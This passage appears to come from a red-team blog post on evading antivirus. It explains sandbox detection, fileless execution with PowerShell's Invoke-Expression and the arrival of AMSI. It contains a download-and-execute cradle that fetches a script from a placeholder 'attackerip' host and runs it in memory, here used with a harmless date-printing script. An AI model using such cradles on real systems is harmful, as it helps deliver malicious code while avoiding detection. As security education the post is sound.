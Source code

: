 - **Sandbox Detection:** In this type of detection, the program is run in a sandbox(virualized environment) and it's all behavior is recorded which is at the end analyzed automatically through a weight system in the sandbox and/or manually by a malware analyst. In this type of detection, the antivirus program will be able see in detail exactly what that file will do in that particular environment.

Be it any detection method, it's easier for any AV products to do it while the binary is on Disk. At-least it used to be the case before AMSI, it was hard for AV products to detect fileless malware(which doesn't drop it's artifacts on the disk and completely executes in the memory). Even as of today it's the objective of most Adverseries and Red Teamers to not touch the disk or try to reduce it as much as possible cause it just reduces the likelihood of getting detected.

### Invoke-Expression

Powershell has a cmdlet i.e., **Invoke-Expression** which evaluates or runs the string passed to it completely in memory without storing it on disk.
We can also verify it with the help of **frida**, you can also use APIMonitor here if you want.
I will be remotely calling a simple powershell script that has a function which just prints the current date.

```bash

function printDate {
	get-date
}
```

```bash 
Window 1

IEX(New-Object Net.WebClient).downloadString('http://attackerip:8000/date.txt'); printDate
```

```bash
Window 2

frida-trace -p 10004 -x kernel32.dll -i Write*
```
![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210812160257.png)

If the program has to write something to a file on disk, it will utilize the WriteFile or WriteFileEx API defined inside kernel32.dll. So here we are tracing all API calls which starts with 'Write' inside kernel32.dll. So we can clearly see that the IEX cmdlet doesn't write the contenst to the disk, rather it executes the contents directly in memory. (**Note**: when you press up or down key, you will see a call to WriteFile API, that's not called by IEX)

### Introduction to AMSI

So for attackers and Red Teamers it was all going easy, days were good and there were no worries about getting detected. That's when Microsoft introduce AMSI with the release of Windows 10. At a high level, think of AMSI like a bridge which connects powershell to the antivirus software, every command or script we run inside powershell is fetched by AMSI and sent to installed antivirus software for inspection.

Initially AMSI was introduced only for powershell and later it was also integrated into Jscript, VBScript, VBA and then very late was integrated into .NET with the introduction of .net framework 4.8
